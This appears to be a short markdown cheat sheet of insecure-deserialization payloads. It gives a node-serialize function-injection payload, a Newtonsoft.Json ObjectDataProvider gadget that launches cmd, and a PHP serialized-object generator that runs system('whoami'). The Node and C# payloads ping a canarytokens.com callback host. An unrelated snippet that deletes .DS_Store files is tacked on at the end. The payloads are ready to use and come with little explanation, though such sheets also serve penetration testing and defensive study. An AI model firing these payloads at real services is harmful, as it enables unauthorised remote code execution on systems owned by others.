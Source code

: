 # Object Deserialization
## Node.JS - node-serialize
```sh
{"rce":"_$$ND_FUNC$$_function() {require('child_process').exec('ping XXXXXXXXX.canarytokens.com', (error, stdout, stderr) => { console.log(stdout); }); } ()"}

```
#####

## C# - Newtonsoft
```sh
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', 'ping -n 3 ping XXXXXXXXX.canarytokens.com']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
#####

## PHP - serialize
Payload Generator:
```sh
#Payload generator

<?php

class Example2
{  
   private $hook = "system('whoami');";
}

print(urlencode(serialize(new Example2)) . "\n");
print((serialize(new Example2)) . "\n");

?>
```
```sh
O:8:"Example2":1:{s:14:"Example2hook";s:17:"system('whoami');";} 
```
#####

## Find and delete files (in case of a space in path we should use)
```sh
#!/bin/sh

find . -name ".DS_Store*" -exec rm {} + 2>/dev/null 

```
